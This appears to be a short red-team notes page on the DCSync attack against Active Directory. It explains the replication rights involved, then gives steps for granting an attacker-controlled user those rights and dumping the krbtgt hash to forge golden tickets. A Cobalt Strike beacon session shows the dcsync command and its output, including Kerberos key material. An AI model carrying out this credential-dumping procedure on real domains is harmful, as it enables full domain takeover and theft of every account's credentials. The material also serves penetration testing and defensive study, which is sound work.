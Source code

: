 # DCSync
DCSync is a technique which replicates the MS-DRSR protocol to replicate AD information, including password hashes. Under normal circumstances, this is only ever performed by (and between) Domain Controllers. There are specific DACLs relating to DCSync called **Replicating Directory Changes \[All/In Filtered Set\]**, which by default is only granted to Enterprise/Domain Admins and Domain Controllers.

These are set on the root domain object. Enterprise/Domain Admins can grant the Replicating Directory Change rights to other users, groups or computers.

1. Assign an additional attacker controlled user DCsync rights. [[PowerView#Assign rights DCSync]]
2. Perform a DCSync for the `EDU\krbtgt` which can create a golden ticket for everyone.
```beacon
beacon> getuid
[*] You are EDU\john

beacon> dcsync edu.evil.corp EDU\krbtgt
[DC] 'edu.evil.corp' will be the domain
[DC] 'dc-2.edu.evil.corp' will be the DC server
[DC] 'EDU\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
 Default Salt : EDU.EVIL.IO/krbtgt
 Default Iterations : 4096
 Credentials
 aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
 aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
 des_cbc_md5       (4096) : b9fefed6da865732
```


## Tools
########
########


```meta
ttp: T1003.006
requirements:
results: 
description: 
```